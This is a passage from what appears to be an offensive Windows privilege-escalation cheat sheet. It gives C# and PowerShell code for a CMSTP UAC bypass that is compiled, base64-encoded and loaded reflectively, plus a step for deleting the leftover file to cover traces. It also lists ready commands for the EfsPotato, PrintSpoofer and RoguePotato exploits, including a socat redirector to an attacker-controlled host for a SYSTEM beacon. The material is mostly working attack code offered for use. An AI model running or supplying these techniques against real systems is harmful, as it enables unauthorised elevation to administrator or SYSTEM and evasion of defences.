                 System.Windows.Forms.SendKeys.SendWait("{ENTER}");
                return true;
            }
        
            public static IntPtr SetWindowActive(string ProcessName)
            {
                Process[] target = Process.GetProcessesByName(ProcessName);
                if(target.Length == 0) return IntPtr.Zero;
                target[0].Refresh();
                IntPtr WindowHandle = new IntPtr();
                WindowHandle = target[0].MainWindowHandle;
                if(WindowHandle == IntPtr.Zero) return IntPtr.Zero;
                SetForegroundWindow(WindowHandle);
                ShowWindow(WindowHandle, 5);
                return WindowHandle;
            }
        }
        ```
	- 2\. Compile “custom\-uac\-bypass\.cs” to a DLL:  ```Add-Type -TypeDefinition ([IO.File]::ReadAllText("C:\<path to>\custom-uac-bypass.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "UAC-Bypass.dll"```
	- 3\. Convert the UAC\-Bypass\.dll to a base64 string: ```[convert]::ToBase64String([IO.File]::ReadAllBytes("C:\<path to>\UAC-Bypass.dll"))```
	- 4\. Copy and paste the base64 string in the place holder of the following script and save as "custom-uac-bypass.ps1":
        ```PowerShell
        function UAC
        {
            Param(
                [Parameter(Mandatory = $true, Position = 0)]
                [string]$Command
            )
            if(-not ([System.Management.Automation.PSTypeName]'CMSTPBypass').Type)
            {
                [Reflection.Assembly]::Load([Convert]::FromBase64String("<BASE64 STRING PLACEHOLDER>")) | Out-Null
            }
            [CMSTPBypass]::Execute($Command)
        } 
        ```
	- 5\. Bypass UAC and execute a command with elevated privileges \(it is recommended to execute this command repidly 2x times in a row\): ```UAC -Command 'C:\Windows\System32\cmd.exe /C "<command to execute>"'```
	- 6\. \(optional\) Delete the \.inf file that is stored in the “C:\\Windows\\Temp” directory \(note the file name based on the script output\)\.

##### _SeImpersonatePrivilege: Potato exploits:_
- Via MS\-EFSR protocol \(a.k.a. PetitPotam\) \([EfsPotato](https://github.com/zcgonvh/EfsPotato)\): ```.\EfsPotato.exe <command>```
- Via Spool Service \([PrintSpoofer](https://github.com/itm4n/PrintSpoofer)\): ```.\PrintSpoofer.exe -c c:\users\public\documents\payload.exe```
- Instruct the DCOM server to perform a remote OXID query to a system under your control and redirects the OXID resolutions requests to a “fake” OXID RPC Server (this technique works on Windows 10 versions higher than 1803 and Server 2019)\.
	- 1\. On a \(linux\) system under your control start a redirector that accepts incoming request and forwards them to the listening port of the RoguePotato binary \(the fake OXID resolver\) running on the target system: ```socat -d -d tcp4-listen:135,reuseaddr,fork tcp4-connect:<TARGET IP>:8080```
	- 2\. Upload both the "RoguePotato\.exe" and RogueOxidResolver\.exe binary to the target system and start the fake OXID resolver that to get a SYSTEM beacon \([RoguePotato](https://github.com/antonioCoco/RoguePotato)\): ```.\RoguePotato.exe -r <own ip> -e "<command to execute or binary to run>" -l 8080 (-p testpipe)```